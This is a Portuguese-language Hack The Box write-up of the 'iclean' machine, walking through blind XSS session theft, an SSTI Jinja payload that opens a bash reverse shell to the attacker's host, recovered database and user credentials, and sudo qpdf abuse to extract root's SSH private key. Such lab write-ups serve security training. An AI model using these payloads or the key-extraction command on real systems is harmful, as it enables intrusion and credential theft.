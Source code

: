 ```yaml
---
title: iclean 
type: docs
---
```


## Introdução

A máquina **iclean** do Hack The Box apresenta um nível intermediário de dificuldade. O desafio explora técnicas como Blind XSS, SSTI (Server Side Template Injection), exposição de credenciais em código-fonte e abuso de funcionalidades do sistema para escalar privilégios. Durante o writeup, vamos abordar desde o reconhecimento até o acesso root na máquina.

## Reconhecimento

Iniciamos o reconhecimento com uma varredura de portas utilizando o Nmap, identificando os seguintes serviços:

```text
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.52 ((Ubuntu))
```

Ao acessar o serviço web, fomos redirecionados para o domínio `capiclean.htb`. Adicionamos o domínio no arquivo `/etc/hosts`:

```bash
echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

Durante a análise da aplicação, encontramos o endpoint `/quote`, que apresentava uma mensagem suspeita sugerindo o envio de dados ao time de gerenciamento:

```
Your quote request was sent our management team. They will reach out soon via e-mail. Thanks for the interest you have shown in our services
```

Isso indicava a possibilidade de Blind XSS.

Testamos payloads de XSS para capturar o token de sessão do administrador, utilizando um servidor HTTP simples para receber os dados:

```bash
python3 -m http.server
```

**Blind XSS:**  
![Blind XSS](blind-xss.png)

Como resultado da exploração, obtivemos o token de sessão do admin:  
![Recebendo o token](get-token.png)

## Acesso Inicial

De posse do token de admin, iniciamos a enumeração de novos endpoints usando o ffuf:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://capiclean.htb/FFUZ
```

Descobrimos o endpoint `/dashboard`, acessível apenas com o token de admin. Adicionamos o cookie no navegador e acessamos o painel.

Dentro da aplicação, seguindo o fluxo, geramos um invoice e encontramos um endpoint de geração de QR Code.

Durante a análise dos parâmetros, encontramos uma SSTI no parâmetro `qr_link`:

**SSTI:**  
![SSTI](SSTI.png)

Exploramos a vulnerabilidade com o seguinte payload para obter uma shell reversa:

```jinja
{{request|attr("application")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/Nosso_IP/4444 0>&1'")|attr("read")()}}
```

## Post Exploitation

Com a shell reversa, iniciamos a análise do ambiente comprometido. Explorando o código-fonte da aplicação, encontramos as credenciais do banco de dados:

```python
db_config = {
'host': '127.0.0.1',
'user': 'iclean',
'password': 'pxCsmnGLckUb',
'database': 'capiclean'
}
```

Utilizamos essas credenciais para acessar o MySQL localmente:

```bash
mysql --database capiclean -u iclean -p
```

Enumerando o banco de dados, encontramos hashes de senhas. Conseguimos quebrar a hash do usuário `consuela`, cuja senha era `simple and clean`.

Com o usuário e senha, acessamos a máquina via SSH:

```bash
ssh consuela@$rhost
```

### Escalação de Privilégios

Após obter acesso SSH como `consuela`, verificamos os comandos disponíveis com sudo:

```bash
sudo -l
```

Identificamos a possibilidade de utilizar o `qpdf`. Supomos que o root também tivesse SSH configurado e armazenasse a chave privada em `/root/.ssh/id_rsa`. Exploramos essa situação usando o `qpdf` para extrair a chave privada para um arquivo acessível:

```bash
sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa
```

Com a chave extraída, realizamos o login como root:

```bash
ssh root@$rhost -i root_ssh_key_file
```

Finalmente, acessamos a flag de root:

```bash
cat root.txt
```

## Conclusão

A exploração da máquina **iclean** envolveu técnicas interessantes como Blind XSS para captura de sessão, SSTI para execução remota de código e uso criativo do `qpdf` para exfiltrar a chave privada do root. A máquina reforça a importância de validar a entrada do usuário e proteger credenciais sensíveis.

## Participantes

- [paixao]()

